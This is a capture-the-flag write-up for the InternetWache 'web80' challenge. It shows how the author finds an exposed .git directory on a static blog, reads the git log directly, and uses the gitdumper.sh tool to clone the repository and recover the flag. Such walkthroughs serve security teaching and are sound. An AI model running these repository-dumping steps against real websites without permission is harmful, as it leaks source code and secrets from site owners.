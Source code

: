 Description: I stumbled across this kinda oldskool blog. I bet it is unhackable, I mean, there's only static HTML.

Service: https://0ldsk00lblog.ctf.internetwache.org/

The first thing to check was to see if the website contained a git repo.
`https://0ldsk00lblog.ctf.internetwache.org/.git`

## Forbidden
### You don't have permission to access /.git/ on this server.

This is promising as it verifies that Git is there. The next obvious thing to do is to check and see if we can directly access some git files. The files I tried first are the log files:

`https://0ldsk00lblog.ctf.internetwache.org/.git/logs/HEAD`

Log Results:

```
0000000000000000000000000000000000000000 14d58c53d0e70c92a3a0a5d22c6a1c06c4a2d296 Sebastian Gehaxelt <github@gehaxelt.in> 1453427711 +0100  commit (initial): Initial commit
14d58c53d0e70c92a3a0a5d22c6a1c06c4a2d296 dba52097aba3af2b30ccbc589912ae67dcf5d77b Sebastian Gehaxelt <github@gehaxelt.in> 1453427733 +0100  commit: Added next post
dba52097aba3af2b30ccbc589912ae67dcf5d77b 26858023dc18a164af9b9f847cbfb23919489ab2 Sebastian Gehaxelt <github@gehaxelt.in> 1453427864 +0100  commit: Added another post
26858023dc18a164af9b9f847cbfb23919489ab2 8c46583a968da7955c13559693b3b8c5e5d5f510 Sebastian Gehaxelt <github@gehaxelt.in> 1453427881 +0100  commit: My recent blogpost
```

Next, I used a tool called `gitdumper` from `GitTools`
`https://github.com/internetwache/GitTools`
Description: `A repository with 3 tools for pwn'ing websites with .git repositories available`

`./gitdumper.sh https://0ldsk00lblog.ctf.internetwache.org/.git /tmp/git-dump`

Running `git-status` inside the cloned git project shows the output of a single file: `index.html`
Next up, I ran `git checkout .` providing me with the `index.html` file.

Finally, I ran `git show` and was able to see the diff and pick up the flag: `IW{G1T_1S_4W3SOME}`

![Flag](https://github.com/Ninjex/CTF-Writeups/blob/master/InternetWache-CTF/web80/web80.png?raw=true "Flag")
